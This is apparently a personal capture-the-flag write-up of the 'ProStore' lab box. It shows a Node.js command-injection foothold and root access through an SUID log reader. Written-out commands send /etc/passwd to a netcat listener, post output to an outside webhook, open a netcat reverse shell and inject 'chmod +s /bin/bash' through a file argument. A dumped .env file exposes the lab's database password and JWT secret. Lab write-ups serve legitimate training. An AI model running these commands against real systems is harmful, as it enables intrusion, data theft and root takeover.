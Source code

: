 # ProStore

We start off by scanning network:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On port 500 we find this website:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try to log in as admin with admin:admin

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting error message maybe we can enumerate usernames by bruteforcing

But first i register and login with admin:admin and i add an item to my cart and go to checkout:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is a pretty obvious foothold direction so i enter everything and capture the request with burp:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The only error i manage to pop is when i input a string in the captcha:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So while looking up at the error:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it treats our input as code and does not find the variable so i need a way to call a function that is defined:

{% embed url="https://www.nodejs-security.com/blog/secure-javascript-coding-practices-against-command-injection-vulnerabilities" %}

so `child_process.exec` seems very unsecure since it does not avoid shell interpretation of arguments. Maybe we can exploit that by calling exec. Since this box is out of scope for OSCP i ask GPT, my bad skill issue

```
require('child_process').exec("whoami | curl -X POST -d @- http://ton-webhook.com");
```

Ok so i got stuck here for a bit, the webserver only allows requests on port 80:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('nc+192.168.49.59+80')</p></figcaption></figure>

The requests work on port 80 and 443 but is blocked anywhere else, after looking it up the target system or its network might have outbound filtering that **only allows traffic on ports 80 and 443**.

So now i am able to pipe the command injection to have some interesting output on my listener:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('cat+/etc/passwd|nc+192.168.49.59+443')</p></figcaption></figure>

Then i tried a basic reverse shell but got no response so obvious reason is that -e is blocked so i tried finding a `nc -e` bypass:

{% embed url="https://www.keuperict.nl/posts/security/2017/08/26/netcat-without-e/" %}

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

and the redirect busted my command so the final payload i injected was:

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('tail+-n+0+-f+/tmp/1+|+/bin/sh|+nc+-nv+192.168.49.59+443+1>+/tmp/1')</p></figcaption></figure>

Now i try and download linpeas

{% hint style="warning" %}
firewall blacklists connectiosn from ports ≠ 80 or 443 so i host my python server on port 80
{% endhint %}

So after running linpeas here is everything i found that seemed interesting for PE:

```sh
???????????? Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                              
/home/observer/.bash_history
/root/


-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)

-rwsr-xr-x 1 root root 20K Feb 13  2023 /usr/local/bin/log_reader (Unknown SUID binary!)

??? Possible private SSH keys were found!
/home/observer/app/backend/node_modules/dotenv/README.md


???????????? Analyzing Env Files (limit 70)
-rw-r--r-- 1 observer observer 247 Dec 23  2022 /home/observer/app/backend/.env                                                                                                     
APP_PORT=5000
DB_HOSTNAME="127.0.0.1"
DB_NAME="prostore_db"
DB_PASSWORD="d8491f5ddd9137cc3630a8a054b01cdf71110a62"
DB_PORT=5432
DB_USER="prostore"
JWT_SECRET="d148c461e7241a2c94727e17fa70b90f"
PASSWORD_HASH_SALT="a008e3dc8f8ec8a0a6e485b890d74d91"
```

I cleared most of the find except the write.ul and log reader:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and for the log reader:

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i try to test what i can do with  this log reader:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

it does not seem to do anything :skull:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ok we're getting somewhere!!!

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So it only reads log file... How could i guess that...

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Ok we are starting to have interesting errors:

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

LETSGOOOOOOOOO

yeah so that was the easy way but it's interesting to try and get a shell since we can run command injections as root:

In this box i did something that i think i can abuse now:

{% content-ref url="../linux/rubydome.md" %}
[rubydome.md](../linux/rubydome.md)
{% endcontent-ref %}

```
/usr/local/bin/log_reader 'test.log|chmod +s /bin/bash'
```

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

My first beyond root

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
